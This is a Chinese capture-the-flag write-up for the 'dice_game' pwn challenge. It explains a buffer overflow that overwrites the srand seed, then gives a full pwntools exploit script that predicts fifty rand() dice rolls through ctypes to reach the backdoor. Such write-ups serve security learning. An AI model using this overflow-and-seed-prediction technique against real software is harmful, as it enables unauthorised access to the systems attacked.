 ### 攻防世界（dice_game）
### 考点：利用溢出修改srand的种子数为1，本地再调用srand（1）去比较绕过，拿到后门。


可以看到函数read存在溢出，并且发现seed[2]的位置是在rbp-0x10的地方，也就是说我们可以覆盖其位置上的数，这也就可以自己任意设置srand的种子数了
![[Pasted image 20240919181504.png]]
下图是需要我们自己输入一个数，需要与rand的结果相同，这样我们才会继续运行
![[Pasted image 20240919181600.png]]
下图是后门，需要我们运行50次后才可以获得
![[Pasted image 20240919181624.png]]

收获：理解了srand与rand的作用，使seed的值为一定值，然后我们在脚本中调用动态库中的srand及rand函数即可。这里又有新的问题了，怎么在脚本中调用动态库中的程序呢，以前是使用plt表＋栈溢出进行调用的，现在利用from ctypes import *库， 使用cdll.LoadLibrary('')代替以前的ELF('')即可，调用动态库的函数。


```
from pwn import *

from LibcSearcher import LibcSearcher

from ctypes import*

import ctypes

def init(file1, file2, x):

    if file2:

        if x:

            return process(file1), ELF(file1), ELF(file2)

        else:

            return remote("node5.buuoj.cn", 26682), ELF(file1), ELF(file2)

    else:

        if x:

            return process(file1), ELF(file1)

        else:

            return remote("node5.buuoj.cn", 26682), ELF(file1)

  

def log(a, b, c):

    if a:

        context.log_level = "debug"

    if b:

        context.os = 'linux'

    if c:

        context.arch = 'amd64'

  

def debug():

    attach(p)

  

r = lambda x: p.recv(x)

ru = lambda str: p.recvuntil(str)

rul1 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))

rul2 = lambda: u64(p.recvuntil('\n')[:-1].ljust(8, b'\x00'))

s = lambda str: p.send(str)

sl = lambda str: p.sendline(str)

sa = lambda a, b: p.sendafter(a, b)

sla = lambda a, b: p.sendlineafter(a, b)

libc_base = lambda addr, name: addr - libc.dump(name)

go = lambda: p.interactive()

  

#######################################################################################

log(1, 1, 1)

p, elf = init("./dice_game", 0, 1)

context.terminal = ['tmux', 'splitw', '-h']

# plt, got, sym = [elf.plt['printf'], elf.got['read'], elf.sym['main']]

# debug()

#######################################################################################

  

libc=cdll.LoadLibrary("./libc.so.6")

payload=b'a'*0x40+p64(1)

ru("Welcome, let me know your name: ")

s(payload)

libc.srand(1)

sleep(1)

for i in range(0,50):

    ru("Give me the point(1~6): ")

    sl(str(libc.rand()%6+1))

  

go()
```